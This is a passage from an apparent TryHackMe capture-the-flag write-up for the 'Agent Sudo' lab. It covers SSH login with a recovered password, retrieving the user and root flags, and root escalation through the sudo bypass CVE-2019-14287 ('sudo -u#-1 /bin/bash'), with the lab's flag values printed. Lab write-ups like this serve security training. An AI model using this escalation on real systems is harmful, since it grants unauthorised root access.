 This means that the other agent's name is `james` and its' [`SSH`](https://en.wikipedia.org/wiki/Secure_Shell) login password is `hackerrules!`

## Capture the user flag

Let's login via SSH to the machine:

`ssh james@[target_IP]`

`james@[target_IP]'s password: hackerrules!`

Once we logged in, let' take a look around with `ls`; we'll se two files:

`Alien_autospy.jpg  user_flag.txt`

Let's read the user flag with `cat user_flag.txt`:

`b03d975e8c92a7c04146cfa7a5a313c7`

To view the picture instead, we need to close the SSH session and copy the picture over to our machine with [`scp`](https://www.freecodecamp.org/news/scp-linux-command-example-how-to-ssh-file-transfer-from-remote-to-local/):

`scp james@10.10.246.178:Alien_autospy.jpg .`

The dot at the end specifies that you want to save the file to the current directory (the one you're in).

Once we copied the picture we can upload it to a reverse image search tool, such as [TinEye](https://tineye.com/), by selecting the FoxNews entry as THM tells us in the hint, we get to know  that this image was faked by a filmmaker and is known as `Roswell alien autopsy`:

![alien]({{ site.baseurl }}/assets/images/thm/as/alien.png)

## Privilege escalation

Since we need to get root privileges, let login back into SSH with `james` and `hackerrules!` credentials.

By using `sudo -l` we can see which commands james can run:

```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Look this up online and you'll stumble upon [CVE-2019–14287](https://www.exploit-db.com/exploits/47502), which allows us to get root access by running:

```
sudo -u#-1 /bin/bash
```

Indeed, executing this command will give us root access. Let' navigate back to the `/` folder with `cd /`, now open the root directory with `cd root`, then open the root flag with `cat root.txt`:

```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

Now we finally know the root flag (`b53a02f55b57d4439e3341834d70c062`) and Agent R's name (`DesKel`).